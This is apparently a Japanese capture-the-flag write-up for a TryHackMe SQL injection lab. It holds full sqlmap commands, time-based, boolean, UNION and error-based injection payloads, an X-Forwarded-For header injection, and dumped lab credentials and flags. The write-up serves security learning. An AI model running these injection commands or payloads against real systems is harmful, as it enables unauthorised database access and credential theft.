 #### 1
```
sqlmap -r s.req -p username --dump
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.7.2#stable}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

---------- snip ----------

[23:28:31] [INFO] parsing HTTP request from 's.req'
sqlmap identified the following injection point(s) with a total of 99 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=name' AND (SELECT 9451 FROM (SELECT(SLEEP(5)))Fanc) AND 'BhIX'='BhIX&password=pass
---

---------- snip ----------

Database: sqhell_2
Table: users
[1 entry]
+----+---------------------------------+----------+
| id | password                        | username |
+----+---------------------------------+----------+
| 1  | icantrememberthispasswordcanyou | admin    |
+----+---------------------------------+----------+
```
![image](https://user-images.githubusercontent.com/6504854/234910802-dc397064-7469-494b-bd79-717b1d183642.png)



#### 2
Hintを読むとIPを記録してるとかいてある。X-forwarded-forを追加したところ、Sleepがきいてる。

```
X-Forwarded-For:127.0.0.1';select+sleep(3);#
```

```
sqlmap --dbms mysql --headers="X-forwarded-for:127.0.0.1" -u http://10.10.56.57/terms-and-conditions --dump --risk 1 --level 1
        ___
       __H__                                                                                    
 ___ ___[']_____ ___ ___  {1.7.2#stable}                                                        
|_ -| . [)]     | .'| . |                                                                       
|___|_  [.]_|_|_|__,|  _|                                                                       
      |_|V...       |_|   https://sqlmap.org                                                    

---------- snip ----------
---
Parameter: X-forwarded-for #1* ((custom) HEADER)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: 1' AND (SELECT 2673 FROM (SELECT(SLEEP(5)))VFMf) AND 'pUCP'='pUCP
---
Database: sqhell_1
Table: flag
[1 entry]
+----+---------------------------------------------+
| id | flag                                        |
+----+---------------------------------------------+
| 1  | THM{FLAG2:C------------------------------5} |
+----+---------------------------------------------+

```

#### 3

Registerできないので、ソースを見るとregister/user-checkに飛ぶようなので、そちらを確認する。

![image](https://user-images.githubusercontent.com/6504854/235073351-4790508f-0804-4593-8144-02c2eba69112.png)

![image](https://user-images.githubusercontent.com/6504854/234926996-5433dd7a-c221-42da-ba16-760861ec12d1.png)

![image](https://user-images.githubusercontent.com/6504854/234927091-e49433eb-dd0d-439e-bf9e-a302d0df5fa8.png)

```
sqlmap --dbms mysql -u http://10.10.56.57/register/user-check?username=admin -p username --dump

---
Parameter: username (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=admin' AND 8387=8387 AND 'joNK'='joNK

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 5498 FROM (SELECT(SLEEP(5)))bqcH) AND 'uivi'='uivi
---
Database: sqhell_3
Table: flag
[1 entry]
+----+---------------------------------------------+
| id | flag                                        |
+----+---------------------------------------------+
| 1  | THM{FLAG3:9------------------------------8} |
+----+---------------------------------------------+

```

#### 4
数値演算がうごく。
![image](https://user-images.githubusercontent.com/6504854/234930560-452e84c4-385f-4262-98eb-837e6c47d50f.png)
![image](https://user-images.githubusercontent.com/6504854/234930659-5a9c4fed-8472-45a9-b520-96a33b6714fd.png)

SQLmapでとれず。
```
┌──(kali🦝kali)-[~]
└─$ sqlmap -dbms mysql -u http://10.10.56.57/user?id=1 -p id --dump --flush-session

----------------- snip ------------------

---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 9655=9655

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 6365 FROM (SELECT(SLEEP(5)))HOws)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=-8134 UNION ALL SELECT CONCAT(0x717a786a71,0x486a4c706e684179424c69766c464b55436e55684b55734c685273484843714e73545a4d75767458,0x71766a6a71),NULL,NULL-- -
---
Database: sqhell_4
Table: users
[1 entry]
+----+----------+----------+
| id | password | username |
+----+----------+----------+
| 1  | password | admin    |
+----+----------+----------+
```
usersテーブルは3カラムでflagはない。今までの結果からおそらくflagテーブル(id,flagの2カラム)があるのではというあてずっぽうでガチャガチャする。

SQLmapの結果のUnionSelectの文を元にガチャガチャする。

![image](https://user-images.githubusercontent.com/6504854/234960030-1ab47f3a-d563-4c3d-8c07-c497bffbce08.png)

この問題が一番難しく、答え見て修正した。

#### 5
コメントとSleepがきく。

![image](https://user-images.githubusercontent.com/6504854/234930133-23f86b71-c999-4987-a9b1-5c10609180b7.png)

![image](https://user-images.githubusercontent.com/6504854/234930304-0cae3595-d827-4e88-aec1-7a0a6f680333.png)

```
$ sqlmap --dbms mysql -u http://10.10.56.57/post?id=1 -p id --dump               
 
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 9968=9968

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: id=1 AND GTID_SUBSET(CONCAT(0x716a627871,(SELECT (ELT(7296=7296,1))),0x7176767a71),7296)

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: id=1;SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 1979 FROM (SELECT(SLEEP(5)))kSmf)

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: id=-6989 UNION ALL SELECT NULL,NULL,CONCAT(0x716a627871,0x5a4348716f52576e476b675742424a5842636765504a416e676c624a4143455976787957414a4370,0x7176767a71),NULL-- -
---
Database: sqhell_5
Table: posts
Database: sqhell_5
Table: flag
[1 entry]
+----+---------------------------------------------+
| id | flag                                        |
+----+---------------------------------------------+
| 1  | THM{FLAG5:B------------------------------8} |
+----+---------------------------------------------+
```

まいどツールだのみ。


